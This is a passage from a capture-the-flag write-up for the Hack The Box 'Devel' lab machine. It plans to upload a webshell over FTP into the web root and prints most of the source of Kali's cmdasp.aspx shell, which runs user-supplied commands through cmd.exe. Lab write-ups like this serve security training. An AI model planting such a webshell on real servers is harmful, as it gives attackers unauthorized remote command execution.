 ![Same HTML code](images/ctf/htb/devel/http_80_web_root_source.png)

So it's either the same directory or a source code repository; there isn't a good way to determine without some modifications to the content.  For this, we could try uploading our own files.

FTP provides functionality to both upload and download files.  We can locate a webshell and try uploading from there.

Kali Linux has basic webshells shipped by default in `/usr/share/webshells/`; I don't know what software the server hosts at this time (ASP.NET, PHP, etc.), so it's possible that multiple shells will need to be tested.  We will try the `/usr/share/webshells/aspx/cmdasp.aspx` shell to start.

This is the source code for the shell:

#### cat /usr/share/webshells/aspx/cmdasp.aspx
```cs
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
```